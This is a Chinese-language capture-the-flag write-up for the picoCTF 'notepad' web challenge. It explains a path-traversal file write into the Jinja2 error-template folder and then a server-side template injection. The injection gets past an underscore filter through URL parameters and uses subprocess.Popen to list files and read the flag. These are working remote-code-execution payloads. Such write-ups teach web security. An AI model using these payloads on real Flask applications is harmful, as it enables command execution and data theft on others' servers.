





# notepad

This note-taking site seems a bit off.

[notepad.mars.picoctf.net](https://notepad.mars.picoctf.net/)

https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar

##### Hint 1

> It's weird that I can't note `..\templates\errors\`.

##### Hint 2

> Jinja2 is a good templating engine and I believe it must be perfectly safe!

## WP

### 寻找注入漏洞

打开源码中的`app.py`，发现在访问`/index`页面时，还会传入一个`error`参数。

```python
@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))
```

查看`index.html`，发现它会根据传入的`error`参数访问`errors/`路径下同名的html文件以回显error信息。

```html

  <h3>
    error: {{ error }}
  </h3>
  

```

因此，虽然我们无法直接访问到`errors/`路径下，但是我们可以通过给`index`页面传入`error`参数的方式来获取`errors/`路径下的任意一个HTML文件。

在这个过程中存在一个SSTI注入点，也就是在显示`[error_name].html`文件的过程中，可以进行模板注入。

为了进行模板注入，我们需要先将我们自定义的HTML文件写入`errors/`路径下，然后通过给`index`页面的`error`参数传递文件名来让服务器回显文件的内容。

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

以上代码展示了该程序接收用户上传文件的操作。可以看见程序会自动将文件内容的前128个字符作为文件名拼接在`static/`路径后，并在最后补上一个token和`.html`后缀生成完整文件名。

文件内容是用户自定义的，也就是说，假如用户在文件内容中输入路径，是可以改变文件的保存位置的。虽然在`create()`函数中程序过滤了`_`和`/`，但是在拼接字符串的过程中，`url_fix()`函数会自动将`\`转化为`/`，因此我们可以使用`\`来作为输入中的文件分隔符，然后将输入内容设置为`..\templates\errors\xxxxxx`来将文件的保存位置设置为`errors/`路径下。

### 注入漏洞测试

使用简单的payload测试一下模板注入。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{3*3}}
```

之所以使用大量的`a`进行填充，是为了让文件名中不出现特殊字符（文件名只会截取前128位）。带有特殊字符的文件名可能会在保存时被编码或者进行其他处理，使保存的结果难以预料。


提交后，显示找不到文件，这是因为我们无法直接访问`errors/`路径下的文件。



访问`/index`并将`error`参数设置为文件名，可以看见最后的`{{3*3}}`被替换为了`9`，注入成功。



### 注入漏洞利用

接下来，我们就可以利用这个漏洞了。常见用于Flask SSTI的payload在这里不可直接使用，因为一般的payload会使用`__class__`等内建属性，而用户输入中的`_`是被过滤掉的。

不过，我们可以间接进行注入：在写入的文件内容中，将会被过滤的字符串改为接收URL传参，等待访问我们自定义的`errors/`路径下的HTML文件时再通过URL将非法字符串传入，这样就可以绕过字符串过滤了。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')]}}
```

我们使用`''[__class__]`的方式访问`''`字符串对象的`__class__`属性。



举一反三，我们可以使用这个方法绕过字符串过滤，注入SSTI的payload。

首先，使用`mro()`查看所有父类，然后找到`object`类后列举出其所有子类，这样就可以看到Python中所有的类了。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')].mro()[1][request.args.get('p2')]()}}
```

payload中`p1`传参`__class__`，`p2`传参`__subclasses__`。



成功获取了Python中所有的类。接下来我们需要找到我们所需的类进行注入。这里使用`subprocess.Popen`类来执行Shell命令。

查看`Dockerfile`可得flag文件和`app.py`在同一路径下，因此先使用`ls`命令找到flag文件。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')].mro()[1][request.args.get('p2')]()[273]('ls', stdout=-1).communicate()[0].decode()}}
```



从回显结果中看到flag文件名，然后使用`cat`命令获取即可。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')].mro()[1][request.args.get('p2')]()[273](['cat', 'flag-c8f5526c-4122-4578-96de-d7dd27193798.txt'], stdout=-1).communicate()[0].decode()}}
```

这里有一个细节需要注意，在`arg`传参中，可以直接输入命令字符串或将命令的各个部分拆开后通过列表传入。

如果直接使用字符串传参，则无法成功获取flag，会报500错误，推测可能是存在空格的原因。因此只能使用列表传参的方式。


注入后，成功获取flag。
